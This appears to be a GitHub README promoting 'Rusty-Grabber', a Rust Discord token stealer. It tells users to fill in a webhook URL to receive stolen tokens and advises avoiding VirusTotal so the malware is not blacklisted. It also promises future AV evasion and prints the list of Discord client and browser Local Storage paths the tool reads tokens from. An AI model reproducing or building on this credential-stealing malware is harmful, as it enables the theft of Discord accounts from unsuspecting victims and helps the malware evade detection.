 # Rusty-Grabber 🚀
- *a blazing fast Discord Token Grabber, no popo made with python*

## Fastest Token Grabber **ever** :
```bash
Rusty-Grabber> time ./target/release/grabber
0.00user 0.00system 0:00.72elapsed 0%CPU (0avgtext+0avgdata 5396maxresident)k
0inputs+0outputs (1419major+0minor)pagefaults 0swaps
```
```
- Multithreading (Rayon, Tokio) -> Threading each path's and requests
- Parallelism (Rayon, jwalk) -> All files read simultaneously, jwalk to go to each entries fastly
- Mutex, Arc -> thread safety
```

## Fill your Webhook in utils.rs :
```bash
./src/global/utils.rs:4 in the WEBHOOK_URL const.
```

## virus total report with 0 Obfuscation, Xoring or AV Evasion
**![Alt text](https://media.discordapp.net/attachments/1146101828451303476/1146101874282471626/Wb8Bg40.png?width=1556&height=820)**
### Avoid using virus total when scanning the malware.
### They will blacklist the program
### Use [kleenscan](https://kleenscan.com/) instead (Anonymous reporting)

## I will maintain the code updated and more optimised
```md
- Work with new discord token's encryption 2023
- Grab all token's possible
- Check each token's
- Soon DiscordProtector bypasser and AV evasion maybe paid
```

## Browser's & Discord Client handle :
```rs
lazy_static! {
    pub static ref PATHS: HashMap<&'static str, String> = {
        let map = HashMap::from([
            ("Discord", format!("{}\\discord\\Local Storage\\leveldb\\", ROAMING)),
            ("Discord Canary", format!("{}\\discordcanary\\Local Storage\\leveldb\\", ROAMING)),
            ("Lightcord", format!("{}\\Lightcord\\Local Storage\\leveldb\\", ROAMING)),
            ("Discord PTB", format!("{}\\discordptb\\Local Storage\\leveldb\\", ROAMING)),
            ("Opera", format!("{}\\Opera Software\\Opera Stable\\Local Storage\\leveldb\\", ROAMING)),
            ("Opera GX", format!("{}\\Opera Software\\Opera GX Stable\\Local Storage\\leveldb\\", ROAMING)),
            ("Amigo", format!("{}\\Amigo\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Torch", format!("{}\\Torch\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Kometa", format!("{}\\Kometa\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Orbitum", format!("{}\\Orbitum\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("CentBrowser", format!("{}\\CentBrowser\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("7Star", format!("{}\\7Star\\7Star\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Sputnik", format!("{}\\Sputnik\\Sputnik\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Vivaldi", format!("{}\\Vivaldi\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome SxS", format!("{}\\Google\\Chrome SxS\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome", format!("{}\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome1", format!("{}\\Google\\Chrome\\User Data\\Profile 1\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome2", format!("{}\\Google\\Chrome\\User Data\\Profile 2\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome3", format!("{}\\Google\\Chrome\\User Data\\Profile 3\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome4", format!("{}\\Google\\Chrome\\User Data\\Profile 4\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome5", format!("{}\\Google\\Chrome\\User Data\\Profile 5\\Local Storage\\leveldb\\", APPDATA)),
            ("Epic Privacy Browser", format!("{}\\Epic Privacy Browser\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Microsoft Edge", format!("{}\\Microsoft\\Edge\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Uran", format!("{}\\uCozMedia\\Uran\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Yandex", format!("{}\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Brave", format!("{}\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Iridium", format!("{}\\Iridium\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
        ]);
        map
    };
}
```

